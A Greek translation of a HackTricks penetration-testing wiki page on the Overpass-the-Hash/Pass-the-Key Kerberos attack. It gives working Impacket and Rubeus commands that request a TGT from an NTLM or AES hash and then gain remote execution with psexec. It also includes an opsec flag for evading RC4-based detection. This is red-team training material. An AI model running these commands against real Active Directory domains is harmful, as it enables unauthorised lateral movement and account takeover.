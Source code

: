 # Over Pass the Hash/Pass the Key

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Overpass The Hash/Pass The Key (PTK)

Η επίθεση **Overpass The Hash/Pass The Key (PTK)** έχει σχεδιαστεί για περιβάλλοντα όπου το παραδοσιακό πρωτόκολλο NTLM είναι περιορισμένο και η αυθεντικοποίηση Kerberos έχει προτεραιότητα. Αυτή η επίθεση εκμεταλλεύεται το NTLM hash ή τα κλειδιά AES ενός χρήστη για να ζητήσει εισιτήρια Kerberos, επιτρέποντας μη εξουσιοδοτημένη πρόσβαση σε πόρους εντός ενός δικτύου.

Για να εκτελεστεί αυτή η επίθεση, το αρχικό βήμα περιλαμβάνει την απόκτηση του NTLM hash ή του κωδικού πρόσβασης του λογαριασμού του στοχευμένου χρήστη. Αφού εξασφαλιστεί αυτή η πληροφορία, μπορεί να αποκτηθεί ένα Ticket Granting Ticket (TGT) για τον λογαριασμό, επιτρέποντας στον επιτιθέμενο να έχει πρόσβαση σε υπηρεσίες ή μηχανές στις οποίες ο χρήστης έχει άδειες.

Η διαδικασία μπορεί να ξεκινήσει με τις παρακάτω εντολές:
```bash
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```
Για σενάρια που απαιτούν AES256, η επιλογή `-aesKey [AES key]` μπορεί να χρησιμοποιηθεί. Επιπλέον, το αποκτηθέν εισιτήριο μπορεί να χρησιμοποιηθεί με διάφορα εργαλεία, συμπεριλαμβανομένων των smbexec.py ή wmiexec.py, διευρύνοντας την έκταση της επίθεσης.

Τα προβλήματα που συναντώνται, όπως το _PyAsn1Error_ ή το _KDC cannot find the name_, συνήθως επιλύονται με την ενημέρωση της βιβλιοθήκης Impacket ή με τη χρήση του ονόματος υπολογιστή αντί της διεύθυνσης IP, διασφαλίζοντας τη συμβατότητα με το Kerberos KDC.

Μια εναλλακτική ακολουθία εντολών χρησιμοποιώντας το Rubeus.exe δείχνει μια άλλη πτυχή αυτής της τεχνικής:
```bash
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```
Αυτή η μέθοδος αντικατοπτρίζει την προσέγγιση **Pass the Key**, με έμφαση στην κατάληψη και τη χρήση του εισιτηρίου απευθείας για σκοπούς αυθεντικοποίησης. Είναι κρίσιμο να σημειωθεί ότι η έναρξη ενός αιτήματος TGT ενεργοποιεί το γεγονός `4768: A Kerberos authentication ticket (TGT) was requested`, υποδηλώνοντας τη χρήση RC4-HMAC από προεπιλογή, αν και τα σύγχρονα συστήματα Windows προτιμούν το AES256.

Για να συμμορφωθεί με την επιχειρησιακή ασφάλεια και να χρησιμοποιήσει το AES256, μπορεί να εφαρμοστεί η ακόλουθη εντολή:
```bash
.\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec
```
## Αναφορές

* [https://www.tarlogic.com/es/blog/como-atacar-kerberos/](https://www.tarlogic.com/es/blog/como-atacar-kerberos/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
